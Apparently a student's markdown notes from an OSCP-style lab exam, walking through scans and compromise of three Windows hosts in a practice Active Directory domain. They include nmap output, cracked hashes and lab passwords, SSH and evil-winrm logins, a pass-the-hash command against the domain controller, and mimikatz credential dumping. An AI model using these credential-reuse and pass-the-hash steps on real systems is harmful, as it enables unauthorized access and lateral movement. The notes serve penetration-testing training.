

# AD
- Domain name: oscp.exam


# MS01
## Nmap scan
```
Nmap scan report for 192.168.233.153
Host is up (0.039s latency).
Not shown: 65001 closed tcp ports (reset), 518 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 e0:3a:63:4a:07:83:4d:0b:6f:4e:8a:4d:79:3d:6e:4c (RSA)
|   256 3f:16:ca:33:25:fd:a2:e6:bb:f6:b0:04:32:21:21:0b (ECDSA)
|_  256 fe:b0:7a:14:bf:77:84:9a:b3:26:59:8d:ff:7e:92:84 (ED25519)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8000/tcp  open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: IIS Windows
| http-methods: 
|_  Potentially risky methods: TRACE
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## Service Emumeration
### 8000: http
- gobuster found /partner/db secrets & hashcat 
  ```
    ecorp	7007296521223107d3445ea0db5a04f9 ecorp
    support	26231162520c611ccabfb18b5ae4dff2 Freedom1  
    bcorp	e7966b31d1cad8a83f12ecec236c384c
    acorp	df5fb539ff32f7fde5f3c05d8c8c1a6e
    ```
- changelog info
  ```
  Moved partner portal to correct VHOST
  ```
## Exploit
- found can ssh with support password and ac
```
    netexec ssh 192.168.233.153 -u 'support'  -p "Freedom1" 
    ssh support@192.168.233.153
```
## Post Exploitation
### Users
1. celia.almeda (domain) | 7k8XHk3dMtmpnC7
2. Mary.Williams (local)
3. support (local)

## Privilege Esculation
1. found ```December31``` password in running admintool.exe
2. login as admin
### Post Root
1. Found OSCP_svc password: Diamond1
2. found passowrd : hghgib6vHT3bVWf in powershell history: admintool.exe 
## Proofs


# MS02
## Nmap scan
```
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.193.154:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.193.154:1433: 
|     Target_Name: OSCP
|     NetBIOS_Domain_Name: OSCP
|     NetBIOS_Computer_Name: MS02
|     DNS_Domain_Name: oscp.exam
|     DNS_Computer_Name: MS02.oscp.exam
|     DNS_Tree_Name: oscp.exam
|_    Product_Version: 10.0.19041
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-09-24T03:07:38
|_Not valid after:  2054-09-24T03:07:38
|_ssl-date: 2024-09-29T04:31:25+00:00; -3s from scanner time.
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-09-29T04:31:25+00:00; -3s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.193.154:49700: 
|     Target_Name: OSCP
|     NetBIOS_Domain_Name: OSCP
|     NetBIOS_Computer_Name: MS02
|     DNS_Domain_Name: oscp.exam
|     DNS_Computer_Name: MS02.oscp.exam
|     DNS_Tree_Name: oscp.exam
|_    Product_Version: 10.0.19041
| ms-sql-info: 
|   10.10.193.154:49700: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 49700
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-09-24T03:07:38
|_Not valid after:  2054-09-24T03:07:38
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: MS02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:48:49 (VMware)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-29T04:30:42
|_  start_date: N/A
|_clock-skew: mean: -3s, deviation: 0s, median: -3s
```
## Service Emumeration
### 1443:mssql
- Microsoft SQL Server 2019

## Exploit
- FOUND that ms02 is using the password we found in ms01 ```evil-winrm -i 10.10.193.154 -u 'Administrator' -p "hghgib6vHT3bVWf"```
## Post Exploitation
- mimikatz to dump passwords and cache
- found OSCP/administrator password: 59b280ba707d22e3ef0aa587fc29ffe5
## Privilege Esculation
- N/A
## Proofs

# DC01
## Nmap scan
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-29 04:27:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: oscp.exam0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
64102/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-09-29T04:30:44
|_  start_date: N/A
|_clock-skew: -4s
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:a7:66 (VMware)

```
## Service Emumeration
- N/A
## Exploit
- ``` evil-winrm -i 10.10.193.152 -u 'Administrator' -H "59b280ba707d22e3ef0aa587fc29ffe5"```
## Post Exploitation
- N/A
## Privilege Esculation
- N/A
## Proofs
